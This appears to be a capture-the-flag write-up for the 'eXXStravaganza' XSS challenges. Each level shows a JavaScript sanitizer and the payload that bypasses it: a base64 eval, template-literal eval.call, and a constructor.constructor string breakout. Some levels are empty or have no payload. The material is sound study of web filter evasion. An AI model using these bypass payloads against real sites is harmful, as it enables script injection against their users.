

# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)


# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `` tag :
```html

```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4


# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\

`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```

(Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )


